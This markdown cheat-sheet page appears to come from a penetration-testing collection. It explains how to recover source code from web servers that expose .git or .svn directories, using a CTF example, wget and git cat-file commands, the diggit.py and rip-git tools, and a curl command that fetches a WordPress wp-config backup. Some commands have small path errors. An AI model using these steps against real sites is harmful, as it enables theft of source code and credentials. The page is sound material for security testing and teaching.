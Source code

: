 # GIT - Source management

Github example
1. Check 403 error (Forbidden) for .git

2. Git saves all informations in log file .git/logs/HEAD (try 'head' too)
```
0000000000000000000000000000000000000000 15ca375e54f056a576905b41a417b413c57df6eb root <root@dfc2eabdf236.(none)> 1455532500 +0000        clone: from https://github.com/fermayo/hello-world-lamp.git
15ca375e54f056a576905b41a417b413c57df6eb 26e35470d38c4d6815bc4426a862d5399f04865c Michael <michael@easyctf.com> 1489390329 +0000        commit: Initial.
26e35470d38c4d6815bc4426a862d5399f04865c 6b4131bb3b84e9446218359414d636bda782d097 Michael <michael@easyctf.com> 1489390330 +0000        commit: Whoops! Remove flag.
6b4131bb3b84e9446218359414d636bda782d097 a48ee6d6ca840b9130fbaa73bbf55e9e730e4cfd Michael <michael@easyctf.com> 1489390332 +0000        commit: Prevent directory listing.
```

3. Acces the commit based on the hash -> a directory name (first two signs from hash) and filename (rest of it).git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c, 
```
# create a .git directory
git init test
cd test/.git

# download the file
wget http://xxx.web.xxx.com/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c
mkdir .git/object/26
mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

# display the content of the file
git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
	tree 323240a3983045cdc0dec2e88c1358e7998f2e39
	parent 15ca375e54f056a576905b41a417b413c57df6eb
	author Michael <michael@easyctf.com> 1489390329 +0000
	committer Michael <michael@easyctf.com> 1489390329 +0000
	Initial.
```

4. Access the tree 323240a3983045cdc0dec2e88c1358e7998f2e39
```
wget http://xxx.web.xxx.com/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
mkdir .git/object/32
mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
	040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
	100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
	040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
	100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
	040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
```

5. Read the data (flag.txt)
```
wget http://xxx.web.xxx.com/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
mkdir .git/object/cb
mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
```



5. Alternative way : diggit.py
```
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://webpage.com -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1

-u is remote path, where .git folder exists
-t is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (cd /path/to/temp/folder && git init)
-o is a hash of particular Git object to download
```

5. Alternative way : rip-git
```
perl rip-git.pl -v -u "http://edge1.web.*****.com/.git/"   

git cat-file -p 07603070376d63d911f608120eb4b5489b507692  
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```




# SVN - Source management
SVN example (Wordpress)
```
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database
http://server/path_to_vulnerable_site/.svn/wc.db
```
INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
```

2. Download interesting files
remove $sha1$ prefix
add .svn-base postfix
use first two signs from hash as folder name inside pristine/ directory (94 in this case)
create complete path, which will be: http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base


## Thanks to
* bl4de, https://github.com/bl4de/research/tree/master/hidden_directories_leaks
* bl4de, https://github.com/bl4de/security-tools/tree/master/diggit
